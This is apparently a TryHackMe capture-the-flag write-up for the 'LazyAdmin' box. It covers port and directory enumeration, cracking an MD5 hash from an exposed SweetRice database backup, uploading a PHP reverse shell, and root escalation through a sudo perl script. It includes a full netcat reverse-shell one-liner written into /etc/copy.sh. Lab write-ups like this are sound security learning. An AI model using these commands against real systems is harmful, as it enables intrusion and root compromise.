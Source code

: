 # LazyAdmin

Description: N/A

After booting up my Kali Linux virtual machine and connecting to THM using OpenVPN, I started attacking the box. First, I started with scanning the server for any open ports of potential vulnerabilities.

## Enumeration/Scanning
`Server IPv4: 10.10.120.174`

I created a nmap directory where I placed the nmap scan that I ran on the host.
* `nmap -sV -sC -O -v 10.10.120.174 | tee nmap/initial`

**I discovered 2 open ports:**
* Port 22/tcp
	* Version: OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
* Port 80/tcp
	* Version: Apache httpd 2.4.18 ((Ubuntu))

I was unable to find any other useful information using nmap. Now that I know the server is hosting a website, I decided to pursue this as a possibility to discover a vulnerability. All that I could see is the default Apache webserver index page as shown below:
* ![Pasted image 20230404224447](https://user-images.githubusercontent.com/28494055/229980819-f2d5614b-c47a-466b-afd6-d8abcc35aec6.png)

Knowing the server is hosting a website, I know I could use a directory buster tool to find any potential directories that I could explore. For this scenario, I used GoBuster.
* `gobuster dir -u http://10.10.120.174 -w /usr/share/dirb/wordlists/common.txt -o gobuster/initial`
* ![Pasted image 20230404225030](https://user-images.githubusercontent.com/28494055/229980800-59b44d72-b367-4ff6-9853-826aa15c53f6.png)

We can see that there is a content page, and the index.html page we originally looked at. Checking out the content page, I found that the server is using SweetRice, a Content Management System.
* ![Pasted image 20230404225400](https://user-images.githubusercontent.com/28494055/229980734-6885650b-a297-46c0-b918-37e96fccaae1.png)

I did not find anything else that could be useful, so I decided to continue the enumeration process with gobuster and scanned the content directory for any additional information I could use.
* `gobuster dir -u http://10.10.120.174/content -w /usr/share/dirb/wordlists/common.txt -o gobuster/content`

I found multiple additional artifacts I could investigate. 
* ![Pasted image 20230404225552](https://user-images.githubusercontent.com/28494055/229980670-c9eb6ea2-8a51-4df0-bcd2-a001cddab3dc.png)

After looking around the theme's directory, I found that the server is using php. This can be useful later. I did not find anything else that could be useful here. Next on the list is /as. I discovered that this is a login page for sweet rice, something I may be able to exploit later. /Attachment was empty, /images did not provide anything useful, then I came up to /inc. Right away I can see that there are 4 folders, cache/, font/, lang/, and mysql_backup/. 

Great, now I know that the server is using mysql as a database. Checking this folder I found a bakup copy. Before continuing, I checked the remaining directories for any additional information that I could use and found nothing.
* ![Pasted image 20230404230322](https://user-images.githubusercontent.com/28494055/229980643-d76a83ad-d4f6-4391-9d7c-b12c3fe27cbd.png)

I downloaded the mysql bakup file and began investigating its contents. I found that there are multiple potential usernames within the file, and a hash. I used grep to highlight the keywords to make it easier on the reader.
* ![Pasted image 20230404231002](https://user-images.githubusercontent.com/28494055/229980625-a13a6f9b-9988-4f52-bf4d-0a02d8700288.png)

The first thing I thought of in regard to the hash is I could possibly crack it. I will be using John to crack the hash.
* `mkdir john`
* `echo "42f749ade7f9e195bf475f37a44cafcb" | tee john/hash.txt`

I used hashid to discover the type of hash we are dealing with.
* `hashid -emj john/hash.txt`
* I was able to determine that the hash was created using an MD5 algorithm as shown: 
* ![Pasted image 20230404232427](https://user-images.githubusercontent.com/28494055/229980607-280db0a2-2b4f-4f54-9a84-f054837d6625.png)

Now that I know the type of hash it is, I can use john to crack the password.
* `john --format=Raw-MD5 john/hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`
* ![Pasted image 20230404233737](https://user-images.githubusercontent.com/28494055/229980582-c2af2d60-4bc9-49e2-b69c-2291f8e8ffa8.png)

**I cracked the hash and got the password, "Password123"**

I then attempted to login using this password and the different usernames I discovered earlier and logged in using manager.

## Exploitation
After logging in, I investigated the admin page looking for anything that could help me with getting access to the server. The first thing I found that may help me is the theme page. In this page, I'm able to upload a file to the server, and it would appear in the /content/theme directory. I may be able to run a reverse shell here using PHP, which we discovered the server to be using.

For this scenario, I will be using [pentestmonkey's php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell).

I used nano to create a php file and placed the reverse shell script inside of it. I then edited the script's default IP address and port number. When the script is run on the server, it will attempt a connection to my IP address on the port I specified. Before placing the script within the theme upload page, it states that I need to zip it. After zipping the file I placed it in my /tmp directory, and then I uploaded it to the website. I started a netcat listening session on port 1127 and then executed the reverseshell on the /theme page of the website.

I'm in!
* ![Pasted image 20230404235109](https://user-images.githubusercontent.com/28494055/229980553-f12be249-09c4-4ffb-bd0b-8a81d57bce75.png)

The first thing I did after receiving access was look for the user flag. I found the home directory of itguy, where the user.txt file containing the flag lies.
* ![Pasted image 20230404235318](https://user-images.githubusercontent.com/28494055/229980534-f258ea57-be4b-42c5-8d35-bc45f2687ad6.png)

## Privilege Escalation
Next, I need to figure out how to privilege escalate to root to find the last flag needed to pwn the box.

The first thing you usually do is check the sudoers file for any possible users or files I could exploit.
* ![Pasted image 20230405000050](https://user-images.githubusercontent.com/28494055/229980484-efe5f6ee-952a-4109-9e06-c76035418573.png)

You can immediately see that there is a script running on perl with sudo privileges, that does not require a sudo password to run. backup.pl is running a shell script called copy.sh as seen below:
* ![Pasted image 20230405000207](https://user-images.githubusercontent.com/28494055/229980462-24d82ccd-b1b2-4b62-b37a-25fd555d34f1.png)
* ![Pasted image 20230405000235](https://user-images.githubusercontent.com/28494055/229980442-5741b5b8-bf96-4a2f-9bab-1ca84b1b5a3f.png)

You can tell just by looking at it that it is a reverse shell, because of the netcat command sending out a connection to IP 192.168.0.190 on port 5554. If I can edit this to use my own address, I could potentially reverse shell onto the system as root. I tried using nano, vi, vim, but was unable to edit the file. The next thing I did was echo the line with my own address and port and output it into the copy.sh script.
* `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.57.33 1128 >/tmp/f" > /etc/copy.sh`

I then started netcat on another terminal listening on port 1128. I ran the backup.pl script, allowing me to connect to the server as root.
* `sudo perl /home/itguy/backup.pl`

## Post-exploitation
I then navigated to root's home and found the last flag. Pwned!
* ![Pasted image 20230405001019](https://user-images.githubusercontent.com/28494055/229980090-b2e9e7d7-b21a-494e-9529-8fcfdcb229a6.png)
